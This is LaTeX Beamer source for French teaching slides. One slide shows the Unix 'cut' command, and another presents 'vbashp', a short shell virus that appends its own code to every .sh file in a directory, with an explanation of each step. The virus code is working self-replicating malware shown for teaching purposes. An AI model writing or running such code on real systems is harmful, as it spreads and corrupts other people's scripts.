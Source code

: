 \documentclass{beamer}
\newenvironment{terminal}{\color{white}\begin{snugshade*}}
{\end{snugshade*}\color{black}}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Exemple pour \texttt{cut}}
  Avec \verb|-d| on spécifie le séparateur et avec \verb|-fn| on choisit de n'afficher que le \verb|n|-ème terme de chaque ligne.
  \begin{terminal}
    \begin{scriptsize}
\begin{verbatim}
$ ls -l | cut -f1
total 12
drwxrwxr-x 2 clegrand clegrand 4096 oct.   3  2024 dir1
drwxrwxr-x 3 clegrand clegrand 4096 oct.   3  2024 dir2
-rw-rw-r-- 1 clegrand clegrand    8 avril 23 22:01 fic1.txt
-rw-rw-r-- 1 clegrand clegrand    0 avril 23 22:01 fic2.txt
clegrand@clegrand-laptop:~/tmp$ ls -l | cut -d" " -f1
total
drwxrwxr-x
drwxrwxr-x
-rw-rw-r--
-rw-rw-r--
\end{verbatim}
    \end{scriptsize}
  \end{terminal}
\end{frame}




\section{Le virus \texttt{vbashp} et quelques améliorations}


\begin{frame}[fragile]
\frametitle{Le virus \texttt{vbashp}}
\begin{block}{\texttt{vbashp}}
\begin{semiverbatim}
\alert<2>{for i in *.sh;}
\alert<2>{do \# pour tous les fichiers avec l'extension sh}
\alert<3>{if test  "./\$i" != "\$0"; }
\alert<3>{   then \# si cible != fichier infectant en cours }
\alert<4>{   tail -n 5 \$0 | cat >> \$i; \# ajout code du virus }
\alert<3>{fi}
\alert<2>{done}
\end{semiverbatim}
\end{block}



\begin{itemize}
\item<2-> \alert<2>{ Il infecte tous les fichiers portant l'extension \texttt{.sh.}}
\item<3-> \alert<3>{ Il n'infecte pas le script infectant.}
\item<4-> \alert<4>{ Il fonctionne par ajout de code en fin de fichier.}
\item<5-> Ce virus a une taille de 91 octets.
\item<6-> L'ajout en fin de fichier ne requiert pas de fichier temporaire.
\item<7-> À l'exécution d'un \texttt{.sh} infecté le code viral est exécuté en dernier.
\end{itemize}
\end{frame}
\end{document}
